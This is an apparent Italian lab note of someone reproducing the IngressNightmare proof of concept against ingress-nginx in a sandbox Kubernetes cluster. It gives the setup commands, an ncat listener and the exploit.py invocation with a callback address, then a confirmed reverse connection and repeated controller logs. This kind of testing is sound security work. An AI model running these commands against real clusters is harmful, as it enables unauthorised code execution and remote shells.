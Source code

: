 ```
```




## Conclusioni



## Note

kubectl exec -it ubuntu-pod -n sandbox  -- /bin/bash
apt update && apt install -y python3 git python3-pip python3.12-venv ncat libssl-dev gcc vim net-tools
git clone https://github.com/hakaioffsec/IngressNightmare-PoC.git
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt


Uso l'ip del nodo come ingress url
ncat -lnvp 443 da una shell
python3 exploit.py http://172.20.0.4:31695 https://ingress-nginx-controller-admission.ingress-nginx.svc.cluster.local 10.244.3.4:443 da un'altra shell

I log del nginx controller dicono: ignoring ingress eumesmo in default based on annotation : ingress does not contain a valid IngressClass

La connessione con netcat funziona da nginx -> pod ubuntu



Durante la fase di exploit ero inondato da richieste del tipo

W0330 16:31:10.574278       9 controller.go:336] ignoring ingress eumesmo in default based on annotation : ingress does not contain a valid IngressClass
I0330 16:31:10.574425       9 main.go:107] "successfully validated configuration, accepting" ingress="default/eumesmo"
W0330 16:31:10.574623       9 controller.go:336] ignoring ingress eumesmo in default based on annotation : ingress does not contain a valid IngressClass
I0330 16:31:10.574634       9 main.go:107] "successfully validated configuration, accepting" ingress="default/eumesmo"
W0330 16:31:10.616194       9 controller.go:336] ignoring ingress eumesmo in default based on annotation : ingress does not contain a valid IngressClass
I0330 16:31:10.616216       9 main.go:107] "successfully validated configuration, accepting" ingress="default/eumesmo"
W0330 16:31:10.616428       9 controller.go:336] ignoring ingress eumesmo in default based on annotation : ingress does not contain a valid IngressClass
I0330 16:31:10.616435       9 main.go:107] "successfully validated configuration, accepting" ingress="default/eumesmo"
W0330 16:31:10.616455       9 controller.go:336] ignoring ingress eumesmo in default based on annotation : ingress does not contain a valid IngressClass
I0330 16:31:10.616462       9 main.go:107] "successfully validated configuration, accepting" ingress="default/eumesmo"
W0330 16:31:10.655297       9 controller.go:336] ignoring ingress eumesmo in default based on annotation : ingress does not contain a valid IngressClass
I0330 16:31:10.655320       9 main.go:107] "successfully validated configuration, accepting" ingress="default/eumesmo"
W0330 16:31:10.657943       9 controller.go:336] ignoring ingress eumesmo in default based on annotation : ingress does not contain a valid IngressClass
I0330 16:31:10.658502       9 main.go:107] "successfully validated configuration, accepting" ingress="default/eumesmo"
W0330 16:31:10.660590       9 controller.go:336] ignoring ingress eumesmo in default based on annotation : ingress does not contain a valid IngressClass
I0330 16:31:10.660609       9 main.go:107] "successfully validated configuration, accepting" ingress="default/eumesmo"
W0330 16:31:10.696768       9 controller.go:336] ignoring ingress eumesmo in default based on annotation : ingress does not contain a valid IngressClass
